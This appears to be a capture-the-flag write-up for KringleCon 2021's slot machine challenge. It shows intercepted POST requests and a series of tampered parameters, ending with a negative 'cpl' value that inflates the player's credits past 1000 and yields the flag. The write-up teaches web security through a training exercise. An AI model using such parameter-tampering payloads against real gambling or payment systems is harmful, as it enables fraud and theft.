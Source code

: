 ```yaml
---
tags:
  - post
  - kringlecon2021Post
title: Kringlecon 2021 - Slot Machine Investigation
---
```

# Introduction
This challenge is all about exploiting Jacks slotsystem. Everything can be done in browser and I really reccommend using firefox, simply becuase the interface is less confusing.
The description for this challenge is:
*Test the security of Jack Frost's slot machines. What does the Jack Frost Tower casino security team threaten to do when your coin total exceeds 1000? Submit the string in the server data.response element. Talk to Noel Boetie outside Santa's Castle for help.* 
So the flag here is what the troll tells you when you reach over 1000 coins.

# Reconnaissance
The webpage for the slotmachines is amusing. It has no fields you can enter data. You can contorl how much you bet and the bet level, other than that you may spin/autospin or check how much each each troll is worth. With no possibility to enter or manipulate the values from the gui, lets check out the inspector tools.
I want to head on over to the networks tools just to check out the requests my computer is sending.
Appart from the header, I see that this is my payload
```
POST
betamount=1&numline=20&cpl=0.1

RESPONSE
{"success":true,"data":{"credit":98,"jackpot":0,"free_spin":0,"free_num":0,"scaler":0,"num_line":20,"bet_amount":1,"pull":{"WinAmount":0,"FreeSpin":0,"WildFixedIcons":[],"HasJackpot":false,"HasScatter":false,"WildColumIcon":"","ScatterPrize":0,"SlotIcons":["icon8","icon6","icon2","icon7","icon9","icon10","icon10","icon4","icon2","icon8","icon6","icon6","icon9","icon6","icon10"],"ActiveIcons":[],"ActiveLines":[]},"response":"Keep playing!"},"message":"Spin success"}
```
Ok so a legitmiate request has the betamount, number of lines we want to play with, and a cpl that I have no idea what does.
But the response tells us that the server pulls the following from its own end, the win amount, free spins, if I have won the jackpot and what trolls appear.

# Enumeration
I tried to combine different fields to try to manipulate the server to give me prizes I didn't have, such as:
```
POST
betamount=1&numline=20&cpl=0.1&HasJackpot=TRUE
Response
200 OK
{"success":true,"data":{"credit":96.5,"jackpot":0,"free...
(It ignored my jackpot)

POST
betamount=1&numline=20&cpl=0.1&credits=1000000
Response
200 OK
{"success":true,"data":{"credit":96.5,"jackpot":0,"free...
(It ignored my credits)

POST
betamount=1&numline=20&cpl=0.1&WinAmount=10000
Response
200 OK
{"success":true,"data":{"credit":96.5,"jackpot":0,"free...
(It ignored my WinAmount)

POST
betamount=10000&numline=20&cpl=0.1
RESPONSE
404 not enough credits

POST
betamount=-10&numline=20&cpl=0,1
RESPONSE
404 invalid betamount

POST
betamount=1&numline=200000&cpl=0.1
RESPONSE
404 not enough credits

POST
betamount=1&numline=-20&cpl=0,1
RESPONSE
200 OK
{"success":true,"data":{"credit":96.5,"jackpot":0,"free...
(It gave me nothing)

POST
betamount=1&numline=20&cpl=99999
RESPONSE
404 not enough credits

POST
betamount=1&numline=20&cpl=-100
RESPONSE
200 OK
{"success":true,"data":{"credit":2096.5,"jackpot":0,"free_...
```
Hold up, the last request gave us alot of credits, why?

# The vulneralbility
CPL didn't have the same checks as the others, becuase pre spin it doesn't affect our startcredits. I don't know exactly what it does, but it looks like it is always multiplied with the numline value and affects your total credits. 
Anyway, the flag: 
```
{"success":true,"data":{"credit":2096.5,"jackpot":0,"free_spin":0,"free_num":0,"scaler":0,"num_line":20,"bet_amount":1,"pull":{"WinAmount":-3000,"FreeSpin":0,"WildFixedIcons":[],"HasJackpot":false,"HasScatter":false,"WildColumIcon":"","ScatterPrize":0,"SlotIcons":["icon3","icon9","icon6","icon4","icon2","icon8","icon1","icon2","icon9","icon6","wild","wild","icon3","wild","icon9"],"ActiveIcons":[1,12,13,14],"ActiveLines":[20]},"response":"I'm going to have some bouncer trolls bounce you right out of this casino!"},"message":"Spin success"}
```
**"I'm going to have some bouncer trolls bounce you right out of this casino!"**
